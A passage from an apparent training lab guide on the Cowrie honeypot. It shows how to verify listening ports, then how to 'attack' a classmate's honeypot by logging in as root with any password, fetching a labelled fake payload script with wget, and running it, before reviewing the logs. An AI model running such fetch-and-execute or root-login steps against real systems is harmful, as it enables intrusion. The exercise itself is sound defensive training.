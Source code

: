 10. Verify cowrie is running and listening on port **2222** and **2223**

		ss -nat

| Component | Explanation |
|-----------|-------------|
| ss      | A utility to investigate sockets. It is used to dump socket statistics and shows information similar to **netstat**. |
| -n      | This option tells **ss** to show numerical addresses instead of trying to determine symbolic host, port, or user names. |
| -a      | Displays all sockets, including both listening and non-listening (connected) sockets. |
| -t      | Restricts the output to only TCP sockets. |

		
**NOTE**: Do not close the terminal session to the server (the working directory should still be **/home/cowrie/cowrie**)
		
## <a name="fenced-code-block">Attack the Honeypot</a>
**NOTE: Open a new terminal window for this exercise**

1. ssh or telnet to a honeypot instance operated by the person sitting next to you (try with username root and any random password)

		ssh root@192.168.30.X -o UserKnownHostsFile=/dev/null

	NOTE: Type `yes` if asked about wanting to continue connecting

	>[!Hint] This will bypass the **Remote Host Identification Has Changed** check, as the SSH fingerprint would have changed for this IPv4 address.
		
2. Once logged in, issue the following commands:

	Download a script (fake payload)

		wget https://wiki.apnictraining.net/_media/evil.sh
	
	View the content of the script

		cat evil.sh

	Try to execute the script

		chmod +x evil.sh
		./evil.sh
		
3. You can try any linux command you want on the honeypot. When finished type in `exit` to close the ssh connection.


## <a name="fenced-code-block">Playback the Attack</a>

1. Identify the relevant information (ip address, URL, etc) from the logs in **var/log/cowrie/cowrie.log**

		less var/log/cowrie/cowrie.log

	Press `q` to exit the **less** command

3. List the captured sessions in **var/lib/cowrie/tty/** 
